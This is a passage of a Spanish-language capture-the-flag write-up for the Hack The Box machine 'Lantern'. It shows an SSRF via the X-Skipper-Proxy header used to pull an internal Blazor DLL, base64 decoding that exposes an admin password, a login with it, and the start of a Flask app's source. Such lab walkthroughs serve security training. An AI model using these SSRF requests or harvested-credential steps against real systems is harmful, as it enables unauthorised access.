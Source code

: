 ```javascript
            }
        }

```

vemos que hace referencia a otro archivo _framework/blazor.boot.json 

con curl podemos verlo
```bash
curl -s http://lantern.htb/_framework/blazor.boot.json -H "X-Skipper-Proxy: http://127.0.0.1:5000"
```

añadir que salen un monton de archivos .dll y informacion que molesta por lo que voy a filtrar con grep por .dll

```bash
curl -s http://lantern.htb/_framework/blazor.boot.json -H "X-Skipper-Proxy: http://127.0.0.1:5000" | grep .dll
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241204200616.png)

justamente el ultimo se sale de lo normal

vamos a intentar descargarlo con wget

```bash
wget --header "X-Skipper-Proxy: http://127.0.0.1:5000" http://lantern.htb/_framework/InternaLantern.dll
```

https://github.com/icsharpcode/AvaloniaILSpy/releases/tag/v7.2-rc

al abrirlo encontraremos algunos base 64 que al descifrarlos dan como resultado lo siguiente

```bash
for encoded in $(cat encoded_dll_info.txt); do echo $encoded | base64 -d; echo; done

Head of sales department, emergency contact: +4412345678, email: john.s@example.com
HR, emergency contact: +4412345678, email: anny.t@example.com
FullStack developer, emergency contact: +4412345678, email: catherine.r@example.com
PR, emergency contact: +4412345678, email: lara.s@example.com
Junior .NET developer, emergency contact: +4412345678, email: lila.s@example.com
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!
```

vemos credenciales

que si probamos en el puerto 3000

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241205173557.png)
tenemos acceso

en el apartado de files vemos un codigo .py :

```python
from flask import Flask, render_template, send_file, request, redirect, json
from werkzeug.utils import secure_filename
import os

app=Flask("__name__")

@app.route('/')
def index():
    if request.headers['Host'] != "lantern.htb":
        return redirect("http://lantern.htb/", code=302)
    return render_template("index.html")

@app.route('/vacancies')
def vacancies():
```